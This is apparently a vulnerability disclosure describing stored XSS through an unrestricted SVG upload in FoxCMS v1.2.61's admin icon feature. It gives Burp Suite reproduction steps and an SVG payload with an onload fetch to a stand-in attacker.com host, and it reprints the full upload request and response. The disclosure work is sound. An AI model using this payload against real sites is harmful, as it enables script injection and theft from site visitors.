Unrestricted SVG Upload Leading to Stored XSS Vulnerability in
qianfox/foxcms v1.2.61

Discoverer: Terry Tian

Credits: westsec Security Team!

1.  Introduction to Vulnerable Project and Affected Version

    Project Overview

    Open-source Project: qianfox/foxcms

Project Repository:

https://gitee.com/qianfox/foxcms

[https://github.com/qianfox/foxcms](https://gitee.com/qianfox/foxcms)Official
Demo/Blog URL: [https://www.foxcms.cn](https://www.foxcms.cn/)

Project Description: \"FoxCMS (Qianhu Content Management System) is a
high-efficiency cross-platform CMS developed based on PHP+MySQL,
designed for multi-terminal content management and digital
transformation for enterprises\"

Affected Version

Version Number: v1.2.61 (Latest stable release)

Release Page: <https://gitee.com/qianfox/foxcms.git>

2.FoxCMS Installation Prerequisite

FoxCMS v1.2.61 requires the source code to be placed in the root
directory of the web server (www) for successful installation. Placing
the source code in a subdirectory under www will cause a compatibility
issue with the installation \"Continue\" button, making the installation
unproceedable. The system is deployed on Apache/2.4.39 + PHP/7.3.4 +
MySQL/5.7.26 (WINNT), and the backend access address is
http://\[Server-IP\]/index.php/admin4883/login/index.html.













Installation completed. Frontend Homepage: http://localhost/index.php



Installation completed. Admin Backend:

<http://localhost/index.php/admin4883/login/index.html>

We can check the website system version, and the current version is
v1.2.61.



When accessing via a browser using 127.0.0.1 or localhost, Burp Suite
cannot capture the packets; access via the actual IP address is
required,url like this:

<http://192.168.219.183/index.php/admin4883/login/index.html>

3.Vulnerability Proof Process

XSS - Cross-Site Scripting Attack: Unrestricted Upload of SVG with XSS
-\> Stored XSS.

Click on Site, then Basic Settings, and click Replace in the URL Icon
section to change the icon, as shown in the figure:





When replacing the icon, capture the traffic with BurpSuite and
intercept the image upload request packet, as shown in the figure:



Change the image file extension (e.g., .png) to the .svg file extension.

SVG files can be uploaded successfully, as shown in the figure:



Upload the SVG file with the payload embedded in its content; the
program fails to filter the payload, leading directly to an XSS
vulnerability, as shown in the figure:

The key code for vulnerability verification is as follows:

\<?xml version=\"1.0\" encoding=\"UTF-8\"?\>

\<svg xmlns=\"http://www.w3.org/2000/svg\"
onload=\"fetch(\'hxxp://attacker.com/steal.js\')\"\>

\<script\>alert(1)\</script\>

\</svg\>



The SVG file containing the payload is uploaded successfully, and the
payload can be executed by directly accessing the file via a browser:

http://192.168.219.183/uploads/files/20260304/d391743ff06f04f1.svg



Request Packet:

POST /index.php/admin4883/PicManager/picManager.html HTTP/1.1

Host: 192.168.219.183

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0)
Gecko/20100101 Firefox/147.0

Accept: \*/\*

Accept-Language:
zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5

Accept-Encoding: gzip, deflate, br

X-Requested-With: XMLHttpRequest

Content-Type: multipart/form-data;
boundary=\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc

Content-Length: 1316

Origin: http://192.168.219.183

Connection: keep-alive

Referer:
http://192.168.219.183/index.php/admin4883/Config/base.html?columnId=23

Cookie: PHPSESSID=9b5783b36759e4bfd1e7e522c289e246

\-\-\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc

Content-Disposition: form-data; name=\"file\[\]\";
filename=\"捕获.svg\"

Content-Type: image/png

\<?xml version=\"1.0\" encoding=\"UTF-8\"?\>

\<svg xmlns=\"http://www.w3.org/2000/svg\"
onload=\"fetch(\'hxxp://attacker.com/steal.js\')\"\>

\<script\>alert(1)\</script\>

\</svg\>

\-\-\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc

Content-Disposition: form-data; name=\"file\[\]\"

function item() {

\[native code\]

}

\-\-\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc

Content-Disposition: form-data; name=\"file\[\]\"

1

\-\-\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc

Content-Disposition: form-data; name=\"pageSize\"

10

\-\-\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc

Content-Disposition: form-data; name=\"groupId\"

-1

\-\-\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc

Content-Disposition: form-data; name=\"event\"

change

\-\-\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc

Content-Disposition: form-data; name=\"handle\"

upload

\-\-\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc

Content-Disposition: form-data; name=\"type\"

local

\-\-\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc

Content-Disposition: form-data; name=\"isStamped\"

0

\-\-\-\-\--geckoformboundarye0acd482e95be79ef5c1e37d9eab54bc\--

Response Packet:

HTTP/1.1 200 OK

Date: Wed, 04 Mar 2026 07:15:25 GMT

Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a
mod_log_rotate/1.02

X-Powered-By: PHP/7.3.4

Access-Control-Allow-Credentials: true

Access-Control-Max-Age: 1800

Access-Control-Allow-Methods: GET, POST, PATCH, PUT, DELETE, OPTIONS

Access-Control-Allow-Headers: Authorization, Content-Type, If-Match,
If-Modified-Since, If-None-Match, If-Unmodified-Since, X-CSRF-TOKEN,
X-Requested-With

Access-Control-Allow-Origin: http://192.168.219.183

Set-Cookie: PHPSESSID=9b5783b36759e4bfd1e7e522c289e246; expires=Thu,
05-Mar-2026 07:15:25 GMT; Max-Age=86400; path=/

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: application/json; charset=utf-8

Content-Length: 2718

{\"code\":1,\"msg\":\"上传成功\",\"data\":{\"total\":390,\"currentPage\":1,\"pageSize\":10,\"imgList\":\[{\"storagetext\":\"本地\",\"id\":473,\"name\":\"捕获.svg\",\"url\":\"\\/uploads\\/files\\/20260304\\/d391743ff06f04f1.svg\",\"storage\":0,\"file_group_type\":\"0\",\"size\":\"\"},{\"storagetext\":\"本地\",\"id\":472,\"name\":\"捕获.svg\",\"url\":\"\\/uploads\\/files\\/20260304\\/16d58226b814879d.svg\",\"storage\":0,\"file_group_type\":\"0\",\"size\":\"\"},{\"storagetext\":\"本地\",\"id\":471,\"name\":\"捕获.svg\",\"url\":\"\\/uploads\\/files\\/20260304\\/5a6d68e5f58a6e24.svg\",\"storage\":0,\"file_group_type\":\"0\",\"size\":\"\"},{\"storagetext\":\"本地\",\"id\":470,\"name\":\"捕获.svg\",\"url\":\"\\/uploads\\/files\\/20260304\\/4b398672e998021a.svg\",\"storage\":0,\"file_group_type\":\"0\",\"size\":\"\"},{\"storagetext\":\"本地\",\"id\":469,\"name\":\"捕获.svg\",\"url\":\"\\/uploads\\/files\\/20260304\\/83d843654e776de0.svg\",\"storage\":0,\"file_group_type\":\"0\",\"size\":\"520X389\"},{\"storagetext\":\"本地\",\"id\":468,\"name\":\"公司外景.jpg\",\"url\":\"\\/\\/oss.foxcms.cn\\/demo\\/files\\/20230311\\/bf2dc58538506a22.jpg\",\"storage\":0,\"file_group_type\":\"5\",\"size\":\"1000X589\"},{\"storagetext\":\"本地\",\"id\":467,\"name\":\"内页Banner.jpg\",\"url\":\"\\/uploads\\/files\\/20230311\\/cefc118963cccb9d.jpg\",\"storage\":0,\"file_group_type\":\"4\",\"size\":\"1920X386\"},{\"storagetext\":\"本地\",\"id\":466,\"name\":\"favicon.png\",\"url\":\"\\/\\/oss.foxcms.cn\\/demo\\/files\\/20230311\\/776d1e527067fa46.png\",\"storage\":0,\"file_group_type\":\"0\",\"size\":\"100X100\"},{\"storagetext\":\"本地\",\"id\":461,\"name\":\"在宇宙中闪耀的蓝色明珠，创新与未来的摇篮.jpg\",\"url\":\"\\/\\/oss.foxcms.cn\\/demo\\/files\\/20230311\\/96566f55a954ecfe.jpg\",\"storage\":0,\"file_group_type\":\"7\",\"size\":\"1107X687\"},{\"storagetext\":\"本地\",\"id\":460,\"name\":\"无尽的探索与未知的奥秘.jpg\",\"url\":\"\\/\\/oss.foxcms.cn\\/demo\\/files\\/20230311\\/a2e9472cf88f0669.jpg\",\"storage\":0,\"file_group_type\":\"7\",\"size\":\"1134X645\"}\],\"groupId\":\"-1\",\"groupList\":\[{\"id\":0,\"title\":\"全部\",\"type\":\"all\",\"count\":390,\"state\":1,\"groupId\":-1},{\"id\":32,\"title\":\"默认分组\",\"type\":\"system\",\"count\":9,\"state\":0,\"groupId\":0},{\"id\":33,\"title\":\"本地图片\",\"type\":\"system\",\"count\":390,\"state\":0,\"groupId\":1},{\"id\":34,\"title\":\"OSS图片\",\"type\":\"system\",\"count\":0,\"state\":0,\"groupId\":2},{\"id\":100,\"title\":\"产品图片\",\"type\":\"custom\",\"count\":193,\"state\":0,\"groupId\":3},{\"id\":101,\"title\":\"广告图片\",\"type\":\"custom\",\"count\":3,\"state\":0,\"groupId\":4},{\"id\":106,\"title\":\"关于我们\",\"type\":\"custom\",\"count\":39,\"state\":0,\"groupId\":5},{\"id\":107,\"title\":\"新闻资讯\",\"type\":\"custom\",\"count\":26,\"state\":0,\"groupId\":6},{\"id\":108,\"title\":\"案例展示\",\"type\":\"custom\",\"count\":120,\"state\":0,\"groupId\":7}\],\"type\":\"local\",\"handle\":\"upload\",\"startDate\":\"\",\"endDate\":\"\",\"extractedUrl\":\"\",\"isStamped\":0},\"url\":\"\",\"wait\":1}